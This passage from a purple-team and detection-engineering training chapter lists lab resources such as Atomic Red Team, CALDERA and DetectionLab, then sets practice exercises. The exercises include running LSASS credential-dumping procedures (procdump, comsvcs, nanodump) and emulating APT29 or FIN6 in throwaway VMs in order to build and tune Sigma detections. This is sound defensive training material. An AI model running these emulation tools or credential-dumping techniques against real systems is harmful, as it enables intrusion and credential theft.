- **Atomic Red Team (redcanaryco/atomic-red-team)** — clone the repo and work through the atomics for a whole tactic (e.g. all of Credential Access) in a throwaway Windows VM with Sysmon installed; for each, predict the telemetry, run it, and confirm what you see. This is the single best hands-on drill for this chapter.
- **MITRE CALDERA** — stand up the server, deploy a Sandcat agent to a lab VM, and run the built-in **"Discovery"** and **"Hunter"** profiles; then build a custom profile from abilities that reproduces the Part 11 FIN7-flavored chain and watch which stages your detections catch.
- **DetectionLab (clong/DetectionLab)** and **SimuLand (Microsoft)** — pre-built, fully instrumented lab environments (Windows domain + Splunk/Sentinel + Sysmon + logging) purpose-built for exactly this kind of emulate-and-detect practice; ideal targets for your first end-to-end purple loop.
- **VECTR** — run a real (small) purple exercise against your DetectionLab: plan 8–10 techniques as hypotheses, execute with atomics, and record every outcome in VECTR to produce a real ATT&CK heatmap and trend baseline.
- **MITRE ATT&CK Adversary Emulation Plans (Center for Threat-Informed Defense)** — pick the **APT29** or **FIN6** plan and execute it end-to-end in a lab; these are the closest thing to a professional threat-led emulation you can practice for free.
- **Splunk Attack Range** and **Splunk Boss of the SOC (BOTS)** datasets — for practicing the *detect* and *tune* beats: write Sigma rules against real attack telemetry and validate them.
- **SigmaHQ rules repository** — deploy community Sigma rules for the techniques you test, then *break* them with procedure variants to learn where brittle detections fail (the "robust" maturity drill).
- **TryHackMe "Intro to Detection Engineering" / "Sysmon" / "Purple Team" rooms** and **HackTheBox Academy detection/SOC modules** — guided, beginner-friendly reinforcement of the Sysmon + Sigma + ATT&CK workflow this chapter builds on.

### Practice Questions & Labs

1. In your own lab, run **all** the Atomic Red Team tests for `T1003.001` (procdump, comsvcs, nanodump, direct-syscall). Write a single Sigma rule you believe covers the technique, then determine empirically which of the four procedures it catches and which it misses. What does this tell you about IOC-based vs behavioral detection, and where on the detection-maturity ladder does your rule sit?
2. Take a technique that comes back **"no visibility"** in a fresh DetectionLab (try `T1059.001` PowerShell without script-block logging enabled). Identify the exact log source and configuration change needed, fix only the instrumentation, and re-run. Explain why writing a Sigma rule *before* this fix would have been wasted effort.
3. Design a **threat-intelligence-led** micro-emulation plan (8 techniques, as hypotheses in the Part 6 table format) for an adversary that realistically targets a sector of your choice. Justify each technique from the actor's known ATT&CK profile, and specify the exact pass criterion and data source for each.
4. Run the same CALDERA operation twice, a week apart, after deliberately breaking one log source in between (e.g. stop Sysmon or disable a forwarder). Show how the coverage map flips a technique from green to red, and explain why this "regression test" property is the core argument for continuous purple teaming.
5. For a technique your lab *does* alert on, measure and improve **detection quality**: generate benign activity that trips the same rule (false positives), then tune the rule to eliminate them without losing the true positive. Report before/after false-positive counts and MTTD, and argue whether the original alert was actually a coverage asset or a liability.
